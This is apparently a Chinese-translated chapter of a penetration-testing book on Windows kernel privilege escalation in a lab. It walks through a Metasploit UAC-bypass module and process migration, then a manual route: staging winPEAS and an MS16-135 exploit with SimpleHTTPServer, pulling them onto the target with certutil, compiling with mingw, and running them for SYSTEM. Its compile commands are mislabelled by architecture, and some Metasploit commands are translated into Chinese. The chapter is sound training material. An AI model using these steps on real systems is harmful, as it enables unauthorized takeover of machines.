

# 第五章：Windows 内核漏洞

现在，我们已经学会了如何枚举目标系统中的重要信息，并识别潜在的权限提升攻击途径，我们可以开始在 Windows 上进行权限提升。我们将探索的第一个权限提升攻击途径是**内核漏洞利用**。

在本章中，你将学习如何手动和自动地识别、转移和利用 Windows 系统上的内核漏洞。

你将学习内核是如何工作的，以及如何利用内核漏洞提升在目标系统上的权限。这是权限提升过程中的一个关键部分，因为内核漏洞为在目标系统上提升权限提供了一条直接的途径。

在本章中，我们将覆盖以下主要主题：

+   理解内核漏洞

+   使用 Metasploit 进行内核漏洞利用

+   手动内核漏洞利用

# 技术要求

要跟随本章的演示，你需要确保你熟悉 Windows CMD 命令。

你可以在这里查看本章的代码演示：[`bit.ly/3m7qa47`](https://bit.ly/3m7qa47)

# 理解内核漏洞

在我们开始利用 Windows 上的各种内核漏洞之前，理解内核是什么，它是如何设置和配置的，至关重要。

这将帮助你更清楚地了解内核是如何以及为何被利用，以及它们如何被用来提升 Windows 系统上的权限。

让我们从理解内核是什么以及它在操作系统中所执行的功能开始。

## 什么是内核？

内核是一个计算机程序，是操作系统的核心，拥有对系统中每一个资源和硬件的完全控制。它充当硬件和软件之间的翻译层，并促进这两者之间的通信。

内核在系统内存中运行，并在系统启动过程中，紧接着引导程序后加载，负责处理操作系统的其余启动过程。

内核负责执行以下主要功能：

+   **内存管理**：内核负责读取、写入、分配和回收系统内存。

+   **设备管理**：内核负责管理和促进硬件外设与操作系统之间的 I/O 操作。

+   **I/O 管理**：内核负责促进和管理系统资源之间的 I/O 操作，如 CPU 和系统内存。

+   **资源管理**：内核负责管理各种程序和进程之间的内存分配和共享。

如下图所示，内核充当硬件和软件之间的中介，促进并翻译它们之间的交互：

图 5.1 – 内核结构

现在我们已经清楚了解了什么是内核、它的功能以及在操作系统中的作用，我们可以清楚地看到，内核中的漏洞可能被利用，进而导致对系统的特权访问和控制。正因如此，攻击者在特权升级过程中看重内核漏洞利用，因为它们提供了一个简单的路径来提升权限。

然而需要注意的是，内核漏洞利用可能不稳定，并可能导致系统崩溃，因此需要谨慎操作。这主要是因为内核漏洞利用会针对内核及其功能，进而干扰操作系统的核心操作。因此，由内核漏洞引发的系统崩溃可能导致数据丢失，并损坏整个操作系统，在渗透测试过程中可能成为一种风险。

让我们简要了解一下 Windows 内核及其结构，以便理解它是如何工作的。

## Windows NT

Windows NT 是所有版本的 Microsoft Windows 自带的内核，像传统内核一样运行，但基于用户设计理念有所不同。它由两种主要的操作模式组成，这些模式决定了对系统资源和硬件的访问：

+   **用户模式**：在用户模式下运行的程序和服务只能有限地访问系统资源和功能。

+   **内核模式**：内核模式对系统资源和功能拥有无限制的访问权限，还具备管理设备和系统内存的功能。

如下图所示，主要有两种操作模式，用于隔离对资源和硬件的访问：

图 5.2 – Windows 内核结构

用户模式包括与内核通过 Windows API 通信的系统定义进程。运行在用户模式中的进程还可以通过向内核模式设备驱动程序发送 I/O 请求与设备通信，如*图 5.2*所示。

内核模式可以访问所有设备和系统资源，并且负责防止用户模式服务与其无权访问的功能进行交互和访问。

现在我们已经了解了 Windows 内核的功能和结构，我们可以开始深入探讨 Windows 内核漏洞利用过程。

## Windows 内核漏洞利用过程

Windows 操作系统容易受到各种攻击，可能导致漏洞利用或特权升级。我们已经在上一章中探讨了如何识别这些漏洞及其相应的漏洞利用。在本章中，我们将重点讨论如何正确识别和利用未打补丁的脆弱 Windows 系统来提升我们的特权。

该过程将采取双管齐下的方法，包括手动和自动利用内核漏洞的过程。

在 Windows 上的内核利用通常会针对 Windows 内核中的漏洞，执行任意代码以运行特权系统命令或获得系统 shell。这个过程会根据目标 Windows 版本以及使用的内核漏洞而有所不同。

本章中，我们将在虚拟黑客实验室中使用 `Windows 7 SP1` 目标虚拟机。

现在，我们可以开始使用 Metasploit 框架进行内核利用。这将使我们能够自动化识别和利用 Windows 内核漏洞的过程。

# 使用 Metasploit 进行内核利用

我们可以通过了解如何使用内核漏洞与 `Metasploit` 框架结合，来开始内核利用过程。Metasploit 框架将提供一种自动化和模块化的解决方案，并简化利用过程。

对于本节，目标系统将是 Windows SP1 虚拟机。作为前提，确保您已经在系统上获取了初始控制并拥有 `Meterpreter` 会话：

1.  第一步是扫描目标以查找潜在的漏洞。我们将使用 `local_exploit_suggester` 模块。此过程在上一章中已经深入讲解过。

1.  我们可以通过运行以下命令在 Metasploit 中加载该模块：

    **使用 post/multi/recon/local_exploit_suggester**

1.  加载模块后，您需要为该模块设置 `SESSION` 选项。`SESSION` 选项需要您的 Meterpreter 会话的会话 ID。可以通过运行以下命令来完成此操作：

    **设置 SESSION <SESSION-ID>**

    如下图所示，`SESSION` 选项应反映您设置的会话 ID：

    

    图 5.3 – local_exploit_suggester 选项

1.  配置模块选项后，我们可以通过运行以下命令来运行该模块：

    **运行**

    这将开始扫描过程。在此过程中，模块将开始输出目标可能存在的各种漏洞，如下图所示：

    

    图 5.4 – local_exploit_suggester 结果

1.  我们可以开始测试 `local_exploit_suggester` 推荐的各种漏洞模块。输出列表中的前几个模块通常更有可能成功。我们可以通过加载列表中的第一个模块来进行测试，正如*图 5.4*中所示。可以通过运行以下命令来完成此操作：

    **使用 /exploit/windows/local/bypassuac_eventvwr**

    这个内核漏洞利用模块将绕过 **用户访问控制**(**UAC**)，并在 Windows 注册表中插入一个命令，该命令将在启动 Windows 事件查看器时执行，并将启动一个系统 shell——在这种情况下，是一个 Meterpreter 会话。

    注意

    该漏洞利用并未利用内核中的漏洞，而是通过与 Windows 注册表的交互并在其中存储命令来实现。

    关于该漏洞利用模块的更多信息，请参见：[`www.rapid7.com/db/modules/exploit/windows/local/bypassuac_eventvwr/.`](https://www.rapid7.com/db/modules/exploit/windows/local/bypassuac_eventvwr/%20)

1.  加载模块后，您需要设置模块选项，包括 Meterpreter 会话 ID 和新 Meterpreter 会话的有效载荷选项，如下图所示：

    图 5.5 – 内核漏洞利用模块选项

1.  我们现在可以通过运行以下命令来执行内核漏洞利用模块：

    `exploit`

    在这种情况下，漏洞利用是成功的，如下所示的截图所示。结果，我们将获得一个具有提升权限的 Meterpreter 会话：

    

    ](Images/B17389_05_006.jpg)

    图 5.6 – 漏洞利用成功

1.  我们现在可以通过运行以下命令枚举系统上的权限：

    `getuid`

    输出如下所示：

    

    ](Images/B17389_05_007.jpg)

    图 5.7 – Meterpreter 权限

    如前所示的截图所示，我们尚未获得提升的权限，但我们可以通过运行以下命令列出当前 Meterpreter 会话中的权限：

    `getprivs`

    输出如下所示：

    

    ](Images/B17389_05_008.jpg)

    图 5.8 – Meterpreter 权限

    如前所示的截图所示，这个 Meterpreter 会话具有管理员权限，我们可以迁移到 `NT AUTHORITY/SYSTEM` 进程。

1.  我们可以通过运行以下命令枚举正在运行的进程：

    `ps`

    此命令将输出正在运行的进程列表、各自的进程 ID 和进程所有者，如下所示：

    

    图 5.9 – Meterpreter 进程

1.  我们可以迁移到 `winlogon.exe` 进程，因为该进程由 `NT AUTHORITY/SYSTEM` 用户拥有。可以通过运行以下命令来实现：

    `migrate <PID>`

    成功迁移后，我们可以通过在系统 shell 中运行 `getuid` 命令或 `whoami` 命令来重新检查我们的权限：

图 5.10 – 权限提升成功

如前所示的截图所示，我们已成功提升了权限，可以运行系统命令并访问系统上的任何资源。

我们现在在系统上获得了提升的权限，可以开始执行后期利用操作。建议为提升的 Meterpreter 会话设置持久化，以防该进程被杀死或系统关闭。

这个过程将根据漏洞模块的类型和所执行的攻击类型有所不同，但在使用 Metasploit 框架时，过程将保持相似。

使用 Metasploit 进行内核利用的过程要简化得多，因为许多步骤可以自动化，然而，您可能会遇到只有通过标准 shell 而非 Meterpreter 会话访问目标的情况。这时，手动内核利用就变得很重要。

# 手动内核利用

在某些情况下，您可能无法访问具有 Meterpreter 会话的目标，或者您可能是通过手动利用技术（如 Web shell）来利用目标的。在这种情况下，您将通过标准反向 Shell 访问目标，通常是通过`netcat`实现的。这会带来一些问题；我该如何扫描目标以寻找潜在的内核漏洞？我又该如何将内核漏洞传输到目标上呢？

这些是我们将在本节中解决的问题；我们的目标选择将是 Windows 7 虚拟机。

## 本地枚举

第一步是扫描并识别潜在的内核漏洞。可以通过使用`Windows-Exploit-Suggester`工具或其他枚举脚本和工具来完成。在这种情况下，我们将利用`winPEAS`二进制文件来枚举我们的目标信息。

注意

winPEAS 是一个本地 Windows 枚举脚本，用于搜索和扫描潜在漏洞，并枚举所有可以用于进行特权提升攻击的重要系统信息。

`winPEAS`二进制文件可以从 GitHub 存储库下载，链接如下：[`github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS/winPEASexe.`](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS/winPEASexe%20)

确保根据目标操作系统的架构下载正确的二进制文件；特定架构的二进制文件可以在`binaries`文件夹中找到，以下截图突出显示了该文件夹：

图 5.11 – winPEAS 二进制文件

在将二进制文件下载到我们的 Kali 虚拟机后，我们需要将`winPEAS.exe`二进制文件传输到我们的目标虚拟机。这不能自动完成，因为我们没有 Meterpreter 会话。因此，我们将需要利用 Windows 特定的工具来下载该二进制文件。

## 传输文件

为了将`winPEAS.exe`二进制文件传输到目标，我们需要在 Kali 虚拟机上设置一个 Web 服务器，用来托管该二进制文件，以便我们可以在目标系统上下载它。可以按照这里概述的步骤进行操作：

1.  要在我们的 Kali 虚拟机上设置 Web 服务器，我们可以使用`SimpleHTTPServer` Python 模块来提供二进制文件。可以通过在存储`winPEAS.exe`二进制文件的目录中运行以下命令来完成：

    `sudo python -m SimpleHTTPServer 80`

    注意

    `SimpleHTTPServer`是一个适用于 Python 2 和 Python 3 的 Python 模块。

    如下截图所示，`SimpleHTTPServer`模块将在 Kali 虚拟机的 IP 地址上通过端口`80`提供目录中的文件：

    

    ](Images/B17389_05_012.jpg)

    图 5.12 – SimpleHTTPServer

1.  为了将`winPEAS.exe`二进制文件下载到目标系统，我们可以使用`certutil`工具。然而，在下载二进制文件之前，我们需要导航到一个有读写权限的目录。在这种情况下，我们将导航到当前用户的桌面，如下图所示：

图 5.13 – 默认用户目录

现在，我们可以使用`certutil`工具从 Kali 虚拟机下载二进制文件到目标系统。这可以通过在目标系统上运行以下命令来完成：

`certutil -urlcache -f http://<KALI-VM>/winPEASx64.exe winPEAS.exe`

该命令的输出可以在以下截图中看到：

](Images/B17389_05_014.jpg)

图 5.14 – certutil 成功传输

如前面的截图所示，如果传输成功，二进制文件应该会被下载并保存为我们指定的名称。

我们现在可以使用 winPEAS 二进制文件来枚举潜在的内核漏洞，这些漏洞可以用于提升我们的权限。

## 枚举内核漏洞

winPEAS 二进制文件会枚举大量信息，并执行各种检查以发现潜在的漏洞。在内核漏洞的上下文中，我们只需要枚举系统信息。这可以通过以下步骤完成：

1.  要枚举所有重要的系统信息，我们需要运行`winPEAS.exe`二进制文件，并使用以下参数：

    `.\winPEAS.exe systeminfo`

    如下截图所示，二进制文件将枚举系统信息，并根据构建版本和安装的补丁，输出可以用来提升权限的内核漏洞列表：

    

    ](Images/B17389_05_015.jpg)

    图 5.15 – winPEAS 内核漏洞

1.  我们还可以使用`Windows-Exploit-Suggester`工具来枚举我们的系统信息并扫描潜在的内核漏洞。可以通过运行以下命令来完成此操作：

    **./windows-exploit-suggester.py -–database <database>.xlsx -–systeminfo <systeminfo>.txt**

    `Windows-Exploit-Suggester`脚本可以通过以下链接下载：[`github.com/AonCyberLabs/Windows-Exploit-Suggester.`](https://github.com/AonCyberLabs/Windows-Exploit-Suggester%20)

    如下截图所示，脚本将列出所有可以用于提升权限的潜在内核利用程序。我们现在可以利用这些信息来确定使用哪个正确的内核利用程序：

    

    图 5.16 – Windows-Exploit-Suggester 内核利用程序

1.  始终建议使用枚举工具和脚本输出的第一个利用程序。在本例中，我们将从`MS16-135`内核利用程序开始。我们需要进一步了解该利用程序以及如何使用它。我们可以通过进行快速的 Google 搜索来获取更多信息，如下截图所示：

图 5.17 – MS16-135 利用程序搜索

Google 搜索显示了一个 GitHub 仓库，其中包含有关利用程序的信息、利用程序源代码以及如何使用它的说明。

始终建议分析源代码，以确保它没有恶意并按预期工作，做任何必要的额外修改。让我们来看看如何从源代码编译一个 Windows 利用程序。

## 编译 Windows 利用程序

修改和编译利用程序的能力非常重要，因为它可以确保利用程序按预期工作，并为你提供根据需求对利用程序进行修改的灵活性。在本例中，我们将看看如何手动将利用程序代码编译成二进制文件：

1.  首先，我们必须确保我们的 Kali Linux 虚拟机具备编译 Windows 二进制文件所需的所有构建工具。可以通过运行以下命令来完成：

    `sudo apt install mingw-w64`

1.  现在，你需要将利用程序代码下载到 Kali 虚拟机。这可以通过直接下载或使用`wget`工具实现，如下所示：

    `wget https://raw.githubusercontent.com/SecWiki/windows-kernel-exploits/master/MS16-135/41015.c`

1.  现在我们可以开始编译过程了，不过，根据目标系统的架构，我们需要以不同的方式编译源代码。

    对于基于 x64 的操作系统，运行以下命令，并根据自己的文件和输出名称替换参数：

    `i686-w64-mingw32-gcc exploit.c -o exploit.exe`

    如果目标是 32 位系统，运行以下命令：

    `i686-w64-mingw32-gcc exploit.c -o exploit.exe -lws2_32`

这将编译利用程序成一个二进制文件，然后我们可以将其转移到目标系统上执行。

## 运行内核利用程序

成功编译利用程序代码后，我们可以将编译好的二进制文件传输到目标系统，并根据利用程序文档中的说明执行。这可以通过按照以下程序进行：

1.  在这个特定的情况下，执行内核漏洞二进制文件是直接的，仅需要指定目标操作系统版本。在执行之前，我们需要将漏洞传输到目标系统。这可以通过在 Kali 虚拟机上启动一个本地 web 服务器并使用 `SimpleHTTPServer` Python 模块来完成：

    `sudo python -m SimpleHTTPServer 80`

1.  为了将二进制文件下载到目标系统，我们可以使用 `certutil` 工具。然而，在下载二进制文件之前，我们需要进入一个具有读写权限的目录。在这种情况下，我们将进入当前用户的桌面，如下图所示：

    图 5.18 – 默认用户目录

    我们现在可以使用 `certutil` 工具从 Kali 虚拟机将二进制文件下载到目标系统。可以通过在目标系统上运行以下命令来完成：

    `certutil -urlcache -f http://<KALI-VM>/exploit.exe exploit.exe`

1.  现在我们可以通过在目标系统上执行漏洞二进制文件来运行它，如下所示：

    `.\exploit.exe`

    前面命令的输出如下面的截图所示：

图 5.19 – 漏洞选项

如*图 5.19*所示，利用此漏洞需要用户指定目标操作系统。可以通过以下选项执行漏洞来完成此操作：

`.\exploit.exe 7`

在指定操作系统后运行漏洞时，完成需要几秒钟时间，之后我们应该获得一个具有 `nt authority\system` 权限的提升的 shell：

](Images/B17389_05_020.jpg)

图 5.20 – 手动内核漏洞成功

如前面的截图所示，漏洞成功运行并自动提升了我们的权限。

我们现在已经能够成功手动和自动运行 Windows 内核漏洞，并可以开始探索其他权限提升向量。

# 总结

在本章中，我们首先介绍了如何使用 Metasploit 框架自动识别和运行内核漏洞。接着，我们讨论了如何手动识别、编译和传输内核漏洞。最后，我们以如何成功在目标系统上执行内核漏洞以提升我们的权限作为结束。

现在我们已经学会了如何在 Windows 上进行内核漏洞利用，我们可以开始探索其他权限提升向量。

在下一章中，我们将探讨 Windows 上的冒充攻击以及它们如何导致成功的权限提升。
